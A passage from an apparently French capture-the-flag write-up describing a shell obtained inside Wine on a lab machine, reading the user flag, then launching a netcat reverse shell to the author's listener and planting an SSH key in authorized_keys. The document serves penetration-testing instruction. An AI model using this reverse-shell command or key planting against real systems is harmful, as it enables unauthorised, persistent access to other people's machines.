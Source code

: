 ```shellsession
Volume Serial Number is 0000-0000

Directory of Z:\home\fox

05/11/2022     14:03  <DIR>         .
14/11/2020     18:09  <DIR>         ..
15/11/2020     11:03  <DIR>         Desktop
15/11/2020     11:03  <DIR>         Documents
15/11/2020     11:03  <DIR>         Downloads
05/11/2022     14:03             0  iphist.dat
15/11/2020     11:03            33  local.txt
15/11/2020     11:03  <DIR>         Music
15/11/2020     11:03  <DIR>         Pictures
15/11/2020     11:03  <DIR>         Public
15/11/2020     11:03           121  startup
15/11/2020     11:03  <DIR>         Templates
15/11/2020     11:03  <DIR>         Videos
       3 files                      154 bytes
      10 directories      3,982,213,120 bytes free
Z:\home\fox>type local.txt
ea2188e08f77470c2c9918ba06f566f7
```

On est bien dans le home de l'utilisateur *fox* mais on a visiblement récupéré un shell dans Wine. Le premier signe c'est que l'on sait que l'OS émulé par VirtualBox est un Linux. Le second signe c'est la lettre Z utilisée pour le volume servant de racine Linux qui est spécifique à Wine.

On peut tout à fait utiliser les commandes Windows pour créer le dossier *.ssh* et placer notre clé publique dans *authorized_keys* mais il est aussi possible de faire exécuter des  commandes Linux depuis Wine. Le seul inconvénient c'est qu'on aura pas l'output.

J'ai remarqué que dans *Z:\bin* on retrouvait le binaire *nc.traditional* qui dispose de l'option *-e* très pratique pour obtenir un shell :

```powershell
Z:\home\fox>start /unix /bin/nc.traditional -e /bin/sh 192.168.56.1 9999
```

Et sur le *ncat* que j'ai mis préalablement en écoute :

```shellsession
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.56.46.
Ncat: Connection from 192.168.56.46:45438.
id
uid=1001(fox) gid=1001(fox) groups=1001(fox)
mkdir .ssh
cd .ssh
echo ssh-rsa --- snip ma clé publique snip --- > authorized_keys
```
